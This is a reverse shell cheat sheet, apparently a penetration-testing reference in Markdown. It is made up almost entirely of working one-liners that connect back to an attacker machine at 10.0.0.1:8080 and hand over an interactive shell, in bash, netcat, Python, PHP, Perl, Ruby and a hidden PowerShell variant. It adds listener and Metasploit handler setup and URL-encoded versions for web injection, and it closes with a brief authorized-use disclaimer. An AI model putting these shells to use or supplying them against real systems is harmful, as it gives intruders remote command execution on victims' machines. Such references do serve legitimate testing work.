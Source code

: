 # Reverse Shell Cheat Sheet

## Online Reverse Shell Generator

[https://revshells.com](https://revshells.com)

---

## Bash Reverse Shells

```bash
# Creates an interactive bash shell that redirects input/output to a TCP connection
# This establishes a reverse shell to the attacker's machine
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# Alternative syntax using -c to execute the command
bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'

# Same as above but using double quotes (useful for variable substitution)
bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

---

## Netcat Reverse Shells

### Traditional Netcat

```bash
# Uses the -e flag to specify the executable to run after connection
# This creates a reverse shell to the attacker's machine
nc -e /bin/sh 10.0.0.1 8080

# Same as above but using /bin/bash instead of /bin/sh
nc -e /bin/bash 10.0.0.1 8080

# Alternative syntax using -c to specify the command
nc -c bash 10.0.0.1 8080
```

### Netcat without -e flag

```bash
# Creates a named pipe and uses it to redirect input/output to the netcat connection
# This method works when the -e flag isn't available
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8080 >/tmp/f

# Alternative method using two netcat instances on different ports
# The first nc listens for the reverse shell, the second sends input back
nc 10.0.0.1 8080 | /bin/bash | nc 10.0.0.1 8081  # Listener both ports 8080 and 8081
```

---

## Python Reverse Shells

### Python 2

```python
# Creates a socket connection to the attacker's machine
# Duplicates the socket file descriptors for input, output, and error
# Then executes an interactive shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python 3

```python
# Same as Python 2 version but compatible with Python 3 syntax
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

---

## PHP Reverse Shells

### Basic PHP Shell

```php
# Creates a socket connection to the attacker's machine
# Executes a shell with input/output redirected to the socket
php -r '$sock=fsockopen("10.0.0.1",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### PHP One-liner

```php
# Embeds a bash reverse shell command within PHP code
# Useful for web application exploitation
<?php system("bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'"); ?>
```

---

## Perl Reverse Shell

```perl
# Creates a socket connection to the attacker's machine
# Redirects standard input, output, and error to the socket
# Then executes an interactive shell
perl -e 'use Socket;$i="10.0.0.1";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

---

## Ruby Reverse Shell

```ruby
# Opens a TCP socket to the attacker's machine
# Redirects input/output to the socket and executes a shell
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

---

## PowerShell Reverse Shell

```powershell
# Creates a TCP client connection to the attacker's machine
# Reads commands from the socket, executes them, and sends output back
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

---

## Listener Commands

### Netcat Listener

```bash
# Listens on port 8080 for incoming reverse shell connections
nc -lvp 8080

# More verbose version showing additional connection details
nc -lvnp 8080  # More verbose
```

### Listener Tools

`penelope` ---> github   
`pwncat-cs` ---> pipx install pwncat-cs  

### Metasploit Listener

```bash
# Configures Metasploit to handle reverse shells
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp  # Example payload
set LHOST 10.0.0.1
set LPORT 8080
run
```

---

## Notes

1. Replace `10.0.0.1` with your attacking machine's IP address or `tun0`
2. Replace `8080` with your desired port number Try using a commun port like 80, 447, ... if trouble with firewall)
3. Some shells may need URL encoding if used in web applications --> `cyberchef online tool` for enc/decode

## URL Encoded Versions

Common shells URL encoded for web injection:

```bash
# URL encoded version of the basic bash reverse shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

%62%61%73%68%20%2D%69%20%3E%26%20%2F%64%65%76%2F%74%63%70%2F%31%30%2E%30%2E%30%2E%31%2F%38%30%38%30%20%30%3E%26%31

# URL encoded version of the netcat reverse shell without -e flag
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8080 >/tmp/f

%72%6D%20%2F%74%6D%70%2F%66%3B%6D%6B%66%69%66%6F%20%2F%74%6D%70%2F%66%3B%63%61%74%20%2F%74%6D%70%2F%66%7C%2F%62%69%6E%2F%73%68%20%2D%69%20%32%3E%26%31%7C%6E%63%20%31%30%2E%30%2E%30%2E%31%20%38%30%38%30%20%3E%2F%74%6D%70%2F%66
```

---

## Security Note

⚠️ These commands are for educational purposes and authorized penetration testing only. Unauthorized use may be illegal.
